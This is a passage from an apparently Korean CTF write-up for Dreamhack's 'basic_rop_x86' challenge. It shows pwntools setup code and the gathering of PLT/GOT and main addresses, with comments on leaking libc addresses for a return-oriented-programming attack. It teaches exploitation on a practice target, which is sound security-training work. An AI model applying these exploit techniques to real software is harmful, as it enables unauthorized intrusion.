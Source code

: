 #### 3) 로컬 실행 및 리모트 실행시 바이너리 설정 및 필요 객체 선언.
``` python
from pwn import *

TEST = True
if TEST:
    p = process("./basic_rop_x86")
    e = ELF("./basic_rop_x86")
    libc = e.libc
else:
    p = remote('host3.dreamhack.games', 13458)
    e = ELF("./basic_rop_x86")
    libc = ELF("./libc.so.6")

# ROP(e)는 ELF에서 ROP 가젯을 자도응로 수집해서 활용할 수 있게 해 줌.
r = ROP(e)

```


#### 4) plt 주소 및 got 주소 구하기
``` python
from pwn import *

TEST = True
if TEST:
    p = process("./basic_rop_x86")
    e = ELF("./basic_rop_x86")
    libc = e.libc
else:
    p = remote('host3.dreamhack.games', 13458)
    e = ELF("./basic_rop_x86")
    libc = ELF("./libc.so.6")

# ROP(e)는 ELF에서 ROP 가젯을 자도응로 수집해서 활용할 수 있게 해 줌.
r = ROP(e)

'''
read_plt = e.plt["read"]
: read() 함수의 PLT(Procedure Linkage Table) 엔트리 주소.
: 프로그램이 read()를 호출할 때 실제로 점프하는 위치.
: 즉, ROP 체인에서 call read 같은 효과를 주고 싶을 때 사용.

read_got = e.got["read"]
: read() 함수의 GOT(Global Offset Table) 엔트리 주소.
: 실행 시작 시 read()의 실제 libc 주소가 없으므로, 처음 호출될 때 resolve 되어 GOT에 기록됨.
: puts(read_got) 같은 식으로 출력하면 libc의 실제 read() 주소를 leak할 수 있음.

main = e.symbols["main"]
: main() 함수의 주소.
:보통 첫 번째 ROP 공격(주소 leak) 후 프로그램을 정상 흐름으로 되돌리기 위해 main으로 점프시킴.
: 즉, "프로그램을 초기 상태로 리셋"하는 역할.
'''
read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]
main = e.symbols["main"]

```
